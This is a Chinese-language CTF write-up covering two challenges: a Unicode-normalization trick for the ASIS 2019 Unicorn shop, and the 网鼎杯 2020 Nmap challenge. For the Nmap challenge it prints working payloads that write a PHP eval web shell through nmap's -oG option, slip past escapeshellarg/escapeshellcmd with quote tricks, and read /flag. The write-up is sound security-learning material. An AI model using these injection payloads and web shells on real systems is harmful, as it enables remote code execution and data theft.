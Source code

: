 ## [ASIS 2019]Unicorn shop

![image-20240508213359991](https://raw.githubusercontent.com/odiws/blog-img/main/image-20240508213359991.png)

一个一个写id，发现在写下4的时候，发现钱不够，加很多发现只能写一个字符

%E1%8D%BC  Unicode翻译后是10000，可以获得flag（钱够了），获得flag

https://xz.aliyun.com/t/5402#toc-0

https://blog.lyle.ac.cn/2018/10/29/unicode-normalization/

https://www.compart.com/en/unicode/

不是很理解unicode是怎么运行的，好像是一个字符可以unicode解码后是很多的数字比如10000.

## [网鼎杯 2020 朱雀组]Nmap 1

知识点：

利用-oG，可以将命令和结果写进文件。
利用-iL 和-oN。其中-iL是从inputfilename文件中读取扫描的目标。在这个文件中要有一个主机或者网络的列表，由空格键、制表键或者回车键作为分割符。如果使用-iL-，nmap就会从标准输入stdin读取主机名字。你可以从指定目标一节得到更加详细的信息，-oN是把扫描结果重定向到一个可读的文件logfilename中。
这道题还有escapeshellarg和escapeshellcmd函数；

### nmap 命令将扫描结果保存在文件里面：

将nmap 127.0.0.1的结果保存在test.txt里面

```bash
nmap 127.0.0.1 -oN test.txt
```

nmap其他写文件命令：

-oN (标准输出)

-oX (XML输出)

-oS (ScRipT KIdd|3 oUTpuT)

-oG (Grep输出)

-[oA](https://so.csdn.net/so/search?q=oA&spm=1001.2101.3001.7020) (输出至所有格式)

这样我们就能写shell

写指令：<?php @eval($_POST[1]); ?> -oG a.phtml

![在这里插入图片描述](https://img-blog.csdnimg.cn/e139bfb2902f45659fe0cdd3c9cb1941.png)

可能是php被过滤了，用短标签绕过，

<?= @eval($_POST[1]); ?> -oG a.phtml

发现没用，没找到文件，说明没写进去。

应为进行了escapeshellarg()与escapeshellcmd()函数处理保护，没法产生文件

可以进行单引号和空格绕过

payload：

' <?= @eval($_POST[1]);?> -oG a.phtml '

访问a.phtml 连接蚁剑  或者直接POST：1=system('ls');

当然还有更简单的写法。
`127.0.0.1' -iL /flag -oN vege.txt '`
然后直接访问即可。

' -iL /flag -oN vege.txt '
escapeshellarg()
'\'' -iL /flag -oN vege.txt '\''
''\'' -iL /flag -oN vege.txt '\'''
escapeshellcmd()
''\'' -iL /flag -oN vege.txt '\'''
''\\'' -iL /flag -oN vege.txt '\\'''
'''' -iL /flag -oN vege.txt ''''

## 